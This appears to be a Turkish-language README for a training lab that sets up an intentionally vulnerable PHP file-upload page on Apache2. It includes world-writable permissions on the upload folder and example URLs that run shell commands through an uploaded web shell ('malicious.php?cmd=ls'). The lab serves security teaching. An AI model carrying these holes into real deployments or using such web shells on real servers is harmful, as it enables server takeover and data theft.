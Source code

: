 # File Upload Vulnerable Lab

Bu rehber, Apache2 üzerinde çalışan bir PHP tabanlı dosya yükleme zafiyeti laboratuvarı oluşturmanıza yardımcı olacaktır. Bu laboratuvar, zararlı dosyaların yüklenmesi ve çalıştırılması senaryosunu içermektedir.

## ⚠️ UYARI: Zararlı.php dosyası zararlı kod içermektedir ve güvenli olmayan sistemlerde ciddi güvenlik açıklarına neden olabilir. Bu işlemi yalnızca güvenli bir test ortamında gerçekleştirin.
**Dikkat:** Yüklenen dosyalardan ve bu rehberde yer alan adımlardan kaynaklanan her türlü sorumluluk size aittir. Lütfen bu laboratuvarı yalnızca yasal ve güvenli ortamlarda kullanın. Kötü niyetli kullanım ve zararlı faaliyetler yasaktır ve ciddi sonuçlara yol açabilir.


## Kurulum Adımları

### 1. Apache2 ve PHP'nin Kurulumu

Öncelikle, gerekli yazılımları güncelleyin ve kurun:

```bash
sudo apt update
sudo apt install apache2
sudo apt install php libapache2-mod-php

sudo systemctl start apache2
sudo systemctl enable apache2

cd /var/www/html
sudo mkdir fileupload  # Yüklenilen dosyaları bu dizine indiriniz (zararli.php hariç)
```
Dosyanın izinlerini açın 
sudo chmod 777 /var/www/html/fileupload/uploads

# Dosya Yükleme ve Zararlı Dosya Çalıştırma
Zararli.php dosyasını yükledikten sonra dosyayı yüklediğimiz dizine gidiyoruz.

```bash
http://localhost/fileupload/uploads/malicious.php?cmd=ls
http://localhost/fileupload/uploads/malicious.php?cmd=cat dosyaAdı
````
Gibi konutları kullanarak dosya dizininde istediğimiz gibi gezinebiliriz.
